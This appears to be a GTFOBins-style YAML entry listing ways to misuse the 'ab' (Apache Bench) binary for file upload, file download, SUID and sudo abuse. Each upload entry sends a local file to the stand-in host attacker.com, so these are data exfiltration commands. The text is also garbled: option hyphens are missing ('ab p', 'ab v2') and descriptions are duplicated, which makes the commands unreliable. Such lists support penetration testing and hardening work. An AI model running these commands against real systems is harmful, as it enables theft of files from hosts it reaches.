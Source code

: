 functions:
  fileupload:
     description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ab p $LFILE $URL
  filedownload:
     description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
      code: |
          URL=http://attacker.com/file_to_download
          ab v2 $URL
  suid:
     description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ./ab p $LFILE $URL
  sudo:
     description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        sudo ab p $LFILE $URL
